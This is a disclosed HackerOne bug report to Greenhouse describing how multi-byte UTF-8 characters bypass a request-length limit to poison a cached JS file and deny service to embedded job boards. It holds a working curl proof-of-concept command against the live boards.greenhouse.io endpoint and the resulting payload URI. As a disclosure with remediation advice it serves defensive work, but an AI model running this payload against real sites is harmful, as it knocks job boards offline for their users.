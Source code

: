 # Bypass of request line length limit to DoS via cache poisoning

## Report Details
- **Report ID**: 350847
- **URL**: https://hackerone.com/reports/350847
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-12T11:16:29.910Z
- **Disclosed**: 2018-09-16T14:22:20.116Z

## Reporter
- **Username**: irvinlim
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: greenhouse

## Vulnerability Information
## Summary

This is a bypass of the fix that was introduced in response to report #334709. The bug in question was that it was possible to poison the cache of the generated JS file at https://boards.greenhouse.io/embed/job_board/js?for=surveymonkey, by appending a URL-encoded NULL byte (`%00`), followed by an arbitrary string of characters. I found in that report that it was possible to cause a denial of service by making the resultant `applicationURI` and `boardURI` parameters too long such that the server rejects any request, causing a `ERR_CONNECTION_CLOSED` error. As clarified with @rongutierrez, the temporary fix implemented in #334709 was to limit the length of the request URI, which was sufficient to prevent the DoS in my PoC in that report.

However, even though I found that the length restriction was 1024 bytes, I managed to bypass this length restriction by using multi-byte UTF-8 characters, which get expanded into up to 12 URL-encoded bytes, which results in me being able to poison the cache once again, making the resultant `applicationURI` parameter greater than the limit allowed by the server, resulting in a DoS once again.

## Description

I found that the request URI was restricted to 1024 characters AFTER decoding, which was evident from trial and error. This meant that `%00` was treated as 1 character, even though the input was 3 bytes long. Since the number of characters is limited to 1024, we have the following:

* 24 characters for the path segment, including the query string: `/embed/job_board/js?for=`
* 1 character for the NULL byte `%00` _after_ decoding
* Variable length in bytes for the board token, minimum 1 byte
* 998 characters remaining for our payload

The length for the resultant URI (in bytes) we had to hit to cause a DoS, was at least 6169 bytes (approximately) as established in the previous report. This consists of:

* 49 bytes for the URI prefix, including the hostname: `https://boards.greenhouse.io/embed/job_board?for=`
* 3 bytes for the NULL byte `%00` _after_ encoding
* Variable length in bytes for the board token, minimum 1 byte
* 6116 bytes remaining that will arise from our payload

Meanwhile, I had a theory that UTF-8 characters would be treated as a single character as well. This meant that for a single character like "♥", this is a 3-byte UTF-8 character, that gets URL encoded into `%E2%99%A5`, which is 9 bytes long. We can even use a 4-byte UTF-8 character which would give us 12 URL encoded bytes. This means that, even though we only have 998 characters, we can amplify this by up to a factor of 12x.

True enough by sending a request, using "♥" as our repeated payload 992 times, we can poison the cache with an amplified result as follows:

```sh
#!/bin/sh

REPEAT=992
ID=623145
curl --http1.1 -s "https://boards.greenhouse.io/embed/job_board/js?for=a%00`python -c 'print(\"♥\" * '$REPEAT')'`$ID" -v
```

This produces the following URI for the `boardURI` parameter:

```
https://boards.greenhouse.io/embed/job_board?for=a%00%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5%E2%99%A5623145
```

This is 8987 characters in the URI prefix alone, which is beyond the 6169 bytes limit that causes the `ERR_CONNECTION_CLOSED` error in the previous report. This results in a similar DoS which is not mitigated.

The execution log can be found in {F296561}.

## Recommended Fix

We can see that the previously implemented fix to limit the length of the request URI string to 1024 characters was insufficient, since we only need 510 times 12 bytes of URL encoded 4-byte UTF-8 characters to cause a DoS, assuming that the board token is a single byte (`a`).

As mentioned in the previous report #334709, it is much, much more foolproof to perform a whitelisting of the board token in the URL.

Alternatively, since it seems that this endpoint requires fetching of data from the database based on the board token that was extracted from the query string parameter, instead of reflecting the `for` parameter into the `boardURI`/`applicationURI` parameter in the JS file, why not take the value from the database instead, since it's guaranteed that it will not be unsafe?

Alternatively, you can choose to limit the request length further to a smaller size (maybe less than 500), but if your application server is able to maybe read UTF-16 or UTF-32 this would come to the same result once again, though I don't think that it's really possible.

The recommended fix is really to not _reflect_ the untrusted user's input which would be reflected onto the cache-poisoned file, regardless if you validate the input query string parameter, or to just take the board token URI from the database and not the request URI. This would really ensure that the fix would be foolproof.

## Impact

As reiterated in the previous reports, an attacker could attempt to poison the cache reliably, resulting in an extended denial of service of Greenhouse job boards/application iframes in client sites.

## Attachments
- execution-log.txt

